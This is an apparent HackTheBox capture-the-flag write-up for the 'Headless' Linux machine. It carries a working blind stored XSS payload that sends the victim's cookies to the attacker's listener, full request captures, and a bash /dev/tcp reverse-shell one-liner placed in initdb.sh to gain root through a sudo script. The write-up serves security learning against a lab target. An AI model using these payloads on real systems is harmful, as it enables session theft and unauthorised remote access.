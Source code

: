 ```yaml
---
title: Headless
tags:
  - HackTheBox
  - Easy
  - Linux
  - XSS
  - Blind_XSS
  - Stored_XSS
  - Command-Injection
date: 2024-09-13T00:00:00Z
---
```

![](Pasted%20image%2020241113190319.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.8 headless.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- headless.htb > sC.txt

[redacted]
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp
```

So I took a look at port 5000 website:

![](Pasted%20image%2020241113190550.png)

If we click on "For questions" we arrive to some kind of form:

![](Pasted%20image%2020241113190631.png)

Let's try to inject an XSS:

![](Pasted%20image%2020241113191302.png)

So I captured the petition with Burpsuite, but had the same result in the repeater. After this, I decided to inject the XSS in the `User-Agent` header:

![](Pasted%20image%2020241113191608.png)

```js
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: <script>alert(1)</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=a&lname=a&email=a%40a&phone=a&message=%3Cscript%3Ealert(1)%3Cscript%3E
```

I don't get the Hacking message now and pop the alert!

![](Pasted%20image%2020241113194507.png)

I can now attempt to create a blind stored XSS to steal cookies with the following script:

```shell
<script>var i=new Image(); i.src="http://10.10.14.24:8090/?cookie="+btoa(document.cookie);</script>
```

```http
POST /support HTTP/1.1
Host: headless.htb:5000
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.24:8090/?cookie="+btoa(document.cookie);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: http://headless.htb:5000
Connection: keep-alive
Referer: http://headless.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

fname=a&lname=a&email=a%40a&phone=a&message=%3Cscript%3Ealert(1)%3Cscript%3E
```

Almost inmediately I received some cookies in my python server:

```shell
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
10.10.14.24 - - [13/Nov/2024 19:54:07] "GET /?cookie=aXNfYWRtaW49YVhOZllXUnRhVzQ5U1c1V2VscFlTV2t1ZFVGc2JWaHNWSFp0T0haNWFXaHFUbUZRUkZkdWRrSmZXbVp6 HTTP/1.1" 200 -
10.10.11.8 - - [13/Nov/2024 19:55:04] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

> *Remember that they are base64 encoded*

So I decoded them and got these cookies:

```txt
aXNfYWRtaW49SW5WelpYSWkudUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

Now I decided to perform some enumeration with [dirsearch](dirsearch.md):

```shell
dirsearch -u http://headless.htb:5000 -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -r

[redacted]
[19:50:36] 200 -    2KB - /support                                          
[19:50:49] 401 -  317B  - /dashboard
```

The `/dashboard` seems to be interesting, because initially we can't access to it. But maybe with the new cookie we actually can:

![](Pasted%20image%2020241113195803.png)

I got access to the Administration Dashboard!

I captured the petition with Burp and try to execute a Command Injection (which actually worked):

![](Pasted%20image%2020241113200048.png)

So I tried to inject a reverse shell:

![](Pasted%20image%2020241113200515.png)

> We've got a reverse shell!

![](Pasted%20image%2020241113200553.png)

![](Pasted%20image%2020241113200709.png)

## Privilege Escalation

I inspected the mail of the user `dvir` and found an interesting message:

```txt
cat /var/mail/dvir 
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
```

If we run `sudo -l`:

```shell
sudo -l

[redacted]
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

I inspected the binary:

```sh
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

So basically, if we create a shell inside `initdb.sh` we will become root.

```shell
cd /dev/shm
echo "bash -i >& /dev/tcp/10.10.14.24/777 0>&1" > initdb.sh
sudo /usr/bin/syscheck
```

> We become root and got root flag!

![](Pasted%20image%2020241113201811.png)

==Machine pwned!==
